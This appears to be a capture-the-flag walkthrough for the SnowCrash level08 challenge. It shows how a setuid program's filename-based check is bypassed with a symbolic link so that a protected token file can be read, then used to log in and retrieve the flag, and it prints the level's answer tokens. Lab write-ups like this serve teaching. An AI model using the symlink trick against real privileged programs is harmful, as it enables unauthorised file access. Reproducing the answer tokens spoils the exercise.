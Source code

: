 # Level08

## Hint

Weird we get different errors depending on the name of the file.

## Answer

Let's check our current directory:
```
level08@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout*
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc*
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-r-x------  1 level08 level08  675 Apr  3  2012 .profile*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

We have an executable file, let's run it first !
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

So we need a file to read, let's try to read the `token` file:
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Not that easy huh ? Let's try to read the `.bash_logout` file instead:
```
level08@SnowCrash:~$ ./level08 .bash_logout
level08: Unable to open .bash_logout: Permission denied
```

We have differents errors depending on the name of the file. However we cannot move nor copy the file `token` because we don't have reading permissions on it. In that case let's try a symbolic link *(while naming the file something else than `token`)*: 
```
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```

Remember since this is a token we'll have to login to the user `flag08` first, let's login:

``` 
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
